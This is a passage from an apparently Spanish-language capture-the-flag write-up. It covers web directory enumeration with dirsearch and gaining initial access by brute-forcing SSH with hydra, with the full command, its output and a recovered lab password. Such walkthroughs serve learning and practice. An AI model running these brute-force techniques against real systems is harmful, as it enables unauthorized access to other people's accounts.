 - En cuanto al contenido del fichero task.txt, se verifica que es una lista de tareas, generada por el usuario lin.

~~~
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
~~~

### Enumeración Web.

Revisando los otros puertos, se verifica el puerto 80, en el cual se sirve una web estática, que revisando el código, no se encuentra nada reseñable.

![https://i.imgur.com/J0ZJhrN.png](https://i.imgur.com/J0ZJhrN.png)

Se ejecuta un comando ```dirsearch``` para descubrir más directorios de la web, pero no se encuentra ninguno de especial importancia.

~~~
[03:52:06] Starting:
[03:52:09] 403 -  277B  - /.htaccess-local
[03:52:09] 403 -  277B  - /.htaccess-marco
[03:52:09] 403 -  277B  - /.htaccess.orig
[03:52:09] 403 -  277B  - /.htaccess-dev
[03:52:09] 403 -  277B  - /.htaccess.bak1
[03:52:09] 403 -  277B  - /.htaccess.old
[03:52:09] 403 -  277B  - /.htaccess.sample
[03:52:09] 403 -  277B  - /.htaccess.save
[03:52:09] 403 -  277B  - /.htaccess.txt
[03:52:09] 403 -  277B  - /.htaccessBAK
[03:52:09] 403 -  277B  - /.htaccessOLD
[03:52:09] 403 -  277B  - /.htaccessOLD2
[03:52:09] 403 -  277B  - /.htpasswd-old
[03:52:09] 403 -  277B  - /.httr-oauth
[03:52:12] 200 -  969B  - /
[03:52:25] 301 -  313B  - /images  ->  http://10.10.245.85/images/
[03:52:25] 200 -  969B  - /index.html
[03:52:32] 403 -  277B  - /server-status
[03:52:32] 403 -  277B  - /server-status/

Task Completed
~~~

## Acceso inicial.

Volviendo al puerto de SSH, como se dispone de un usuario (lin) y un fichero que podría ser un diccionario (locks.txt) se utiliza el comando hydra para ver si se puede tener acceso mediante fuerza bruta.

~~~
hydra -l lin -P locks.txt ssh://10.10.108.125
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-22 13:46:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.108.125:22/
[22][ssh] host: 10.10.108.125   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-03-22 13:46:29
~~~
